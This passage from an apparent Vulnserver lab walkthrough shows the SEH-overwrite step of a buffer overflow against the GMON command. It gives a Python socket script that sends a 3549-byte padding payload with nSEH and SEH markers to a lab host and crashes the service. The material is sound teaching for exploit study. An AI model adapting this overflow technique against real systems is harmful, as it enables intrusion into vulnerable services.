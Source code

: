 </div>

So, our ```nSEH``` is present at the offset of ```3549 bytes``` in the data

## Overwriting SEH

Now, we have found the offset of our ```SEH handlers```

It’s time to control the SEH, which is the first important phase of this exploitation

Lets craft a script to overwrite the SEH with our own custom data, which will be further used to craft an exploit

```c
┌──(kali㉿aidenpearce369)-[~/vulnserver/GMON]
└─$ cat overwrite-seh.py 
import socket, sys
# to overwrite buffer and EBP
payload=b"A"*3549
# to overwrite nSEH
payload+=b"B"*4
# to overwrite SEH
payload+=b"C"*4
payload+=b"D"*(5000-len(payload))
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.116.141", 9999))
s.send((b"GMON /."+payload))
s.close()
sys.exit()

┌──(kali㉿aidenpearce369)-[~/vulnserver/GMON]
└─$ python3 overwrite-seh.py  

```

We have crashed our program and succesfully overwrote the SEH with our own values

<div align="center">
<img src="https://raw.githubusercontent.com/AidenPearce369/Vulnserver-Walkthrough/main/res/gmon-overwrite-seh.png">
</div>